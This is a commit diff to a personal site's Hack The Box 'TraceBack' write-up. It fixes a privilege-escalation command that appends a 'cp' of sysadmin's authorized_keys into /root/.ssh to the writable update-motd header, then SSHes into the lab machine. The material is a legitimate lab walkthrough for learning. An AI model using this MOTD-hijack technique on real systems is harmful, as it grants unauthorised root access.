

Before and after one commit to 0xTaylor/0xtaylor.github.io, a plain HTML site: page content/writeups/hackthebox/htb-TraceBack.html in a window 1280 px wide. Shown: the part 9164-9351 px from the top of the page, without its empty margins (368-1263 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update htb-TraceBack.html

```diff
--- a/content/writeups/hackthebox/htb-TraceBack.html
+++ b/content/writeups/hackthebox/htb-TraceBack.html
@@ -125,7 +125,7 @@ upload sysadmin's authorized keys into the root ssh directory and then ssh into
 <p>We will have to do this quickly as the files get restored every 30 seconds</p>
 <p>cd into /etc/update-motd.d and then do this command:</p>
 <div class="sourceCode">
-  <pre class="sourceCode bash">echo "/home/sysadmin/.ssh/authorized_keys /root/.ssh" >> 00-header</pre></div>
+  <pre class="sourceCode bash">echo "cp /home/sysadmin/.ssh/authorized_keys /root/.ssh" >> 00-header</pre></div>
   <p>Then enter the command then open 2 terminals. One that ssh's into sysadmin like so</p>
   <div class="sourceCode">
     <pre class="sourceCode bash">ssh -i ~/.ssh/id_rsa sysadmin@10.10.10.181</pre></div>
```
